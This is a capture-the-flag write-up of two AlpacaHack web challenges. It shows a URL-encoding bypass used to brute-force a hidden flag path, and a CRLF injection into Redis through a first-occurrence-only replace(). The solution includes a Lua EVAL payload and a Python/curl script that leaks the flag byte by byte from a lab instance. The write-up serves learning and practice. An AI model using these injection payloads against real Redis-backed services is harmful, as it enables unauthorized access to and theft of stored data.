 ```yaml
---
title: "AlpacaHack Round 7 (Web) 2024"
date:   2024-12-02 17:06:10 
categories: [Write-ups, Alpacahack 2024]
tags: [web]
description: Finding + bypass hidden path, data manipulation in Redis
---
```


## My certificate
This is first time i tried AlpacaHack! That was nice individual CTF, which is only operating in 6 hours (i only solved one chall TvT!)
![Certificate](/commons/ctfs/alpacahack/alpaca_cert.png)

## Treasure Hunt (116pts, 30th solve/71 solves)

Go arounds, there are nothing special till the dockerfile, the flag path is obfuscated:
### Dockerfile

```Dockerfile
FROM node:22.11.0

WORKDIR /app

COPY public public

# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH

COPY package.json package-lock.json ./
RUN npm install

COPY index.js .

USER 404:404
CMD node index.js

```

Casually i put it on ChatGPT for analyzing it: 

`md5sum flag.txt | cut -c-32`: Computes the MD5 hash of flag.txt and extracts the first 32 characters (full MD5 hash).

`fold -w1 | paste -sd /`: Splits the MD5 hash into individual characters and joins them with /, creating a deeply nested path.

    Example: If the MD5 hash is abcdef123456..., the resulting path is ./public/a/b/c/d/e/f/1/2/3/4/5/6/....

FLAG_PATH=...: Appends /f/l/a/g/./t/x/t to this path, creating a final obfuscated location for the file.

So with this, i was instantly know that we should brute force the path to get the flag, but how to do it? Firstly, i use hand to test all cases and what different. Take a look at index.js:

### index.js

```js
import express from "express";

...

const app = express();

app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});

...

```

This sanitize the input, if have any character f,l,a,g then send the badURL for this.

![](/commons/ctfs/alpacahack/alpaca1.png)

But the different is when you type correct directory on the server, the "/" automatically added in the end of URL:

![](/commons/ctfs/alpacahack/alpaca2.png)
![](/commons/ctfs/alpacahack/alpaca3.png)

You can see that even with the same response, if the directory exist, the URL changed BUT we dont spend all day to do this repeatly. Cause we cant pass "f,l,a,g" in the URL, so i use URL encode to bypass this

Then i tried BurpSuite intruder to bruteforce all URL encoded ascii and digits:

![](/commons/ctfs/alpacahack/alpaca4.png)

The key is you get the status code ``301 (Redirect)`` if the path exists (even the response is still the same)

![](/commons/ctfs/alpacahack/alpaca5.png)

> %34 is exist (4)

So i use chatgpt for a python script to do this sequence, but seems like the python request library cant recognize the `301 (Redirect)` status code, so i solve this by bruteforce with BurpSuite repeatly, spends me around 30 minutes to get the flag

![](/commons/ctfs/alpacahack/alpaca6.png)

> Flag: Alpaca{alpacapacapacakoshitantan}

## Alpaca Pool (Upsolve) (146pts, 42 solves) 

Go arounds then we found that flag is stored as a key in the redis server:

### db.js

```js
export async function init(flag) {
    const socket = await connect();

    let message = '';
    for (const animal of ANIMALS) {
        const votes = animal === 'alpaca' ? 10000 : Math.random() * 100 | 0;
        message += `SET ${animal} ${votes}\r\n`;
    }

    message += `SET flag ${flag}\r\n`; // please exfiltrate this

    await send(socket, message);
    socket.destroy();
}
```
### index.js 

`init()` is called instanly if the app running:

```js
await init(FLAG); // initialize Redis
app.listen(PORT, () => {
    console.log(`server listening on ${PORT}`);
});
```

So our mission is exfiltrate the flag, since we have only sink:

```js
app.post('/vote', async (req, res) => {
    let animal = req.body.animal || 'alpaca';

    // animal must be a string
    animal = animal + '';
    // no injection, please
    animal = animal.replace('\r', '').replace('\n', '');

    try {
        return res.json({
            [animal]: await vote(animal)
        });
    } catch {
        return res.json({ error: 'something wrong' });
    }
});
```
While solving this chall while the CTF is running, i know that we have to bypass the `replace()` function, unfortunately i tried `\\rr` so after sanitize it suppose to be `\r` but not works. Also tried CLRF %0D%0A but it still close. After the event ended, i know that `replace()` only removes the first occurrence :((

![](/commons/ctfs/alpacahack/alpaca7.png)

What we got in server side:

![](/commons/ctfs/alpacahack/alpaca8.png)

### db.js

```js

...
    return parseInt(reply.match(/:(\d+)/)[1], 10); // the format of response is like `:23`, so this extracts only the number 
...
...
let result = {};
    for (const [index, match] of Object.entries([...reply.matchAll(/\$\d+\r\n(\d+)/g)])) {
        result[ANIMALS[index]] = parseInt(match[1], 10);
    }
...

```

So, we cant get a return flag string, what we need to do is used [EVAL](https://redis.io/docs/latest/commands/eval/) function to execute a Lua script that leak the flag byte-by-byte

Our lua script to achieve the first byte of flag: 
```lua
EVAL "local flag=redis.call('GET','flag'); local flagByte=string.byte(flag,1); redis.call('SET','dog',flagByte)"
```



![](/commons/ctfs/alpacahack/alpaca9.png)


```python
import subprocess
import re
flag = ""
for index in range (1, 30):
    cmd = (
        'curl -X POST http://localhost:3000/vote -d '
        f'"animal=%0D%0Adog%0D%0AEVAL%20\\"local%20flag=redis.call(\'GET\',\'flag\');'
        f'local%20flagByte=string.byte(flag,{index});redis.call(\'SET\',\'dog\',flagByte)\\"%200"'  # the last %200 that no key passed in script
    )
    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
    match = re.search(r':(\d+)', result.stdout)    
    byte = int(match.group(1))
    ascii = chr(byte-1)
    flag += ascii
    print(flag)

```
Then change the host to our instance, we got the flag:

![](/commons/ctfs/alpacahack/alpaca10.png)
